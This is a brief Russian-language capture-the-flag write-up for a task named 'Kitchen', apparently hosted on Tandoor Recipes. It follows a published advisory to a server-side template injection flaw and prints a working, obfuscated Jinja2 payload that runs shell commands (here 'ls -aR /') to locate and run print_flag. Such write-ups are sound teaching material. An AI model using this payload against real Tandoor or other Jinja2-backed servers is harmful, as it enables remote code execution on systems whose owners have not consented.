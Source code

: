 # Kitchen
решил <a href="https://t.me/bazonavt">@bazonavt</a>

1. Региструемся, исследуем сервис
2. Нажав на иконку пользователя в правом врехнем углу, видим, что есть Github
3. Заходим в Security, переходим по эксплоиту <a href="https://github.com/TandoorRecipes/recipes/security/advisories/GHSA-r6rj-h75w-vj8v">RCE</a> (так как в задании просят запустить `print_flag`)
4. Делаем `ls -aR /`:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(418)('ls -aR /',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```
5. Через `Ctrl+F` находим директорию, где расположен `print_flag`
6. Аналогично запускаем `print_flag` и получаем флаг
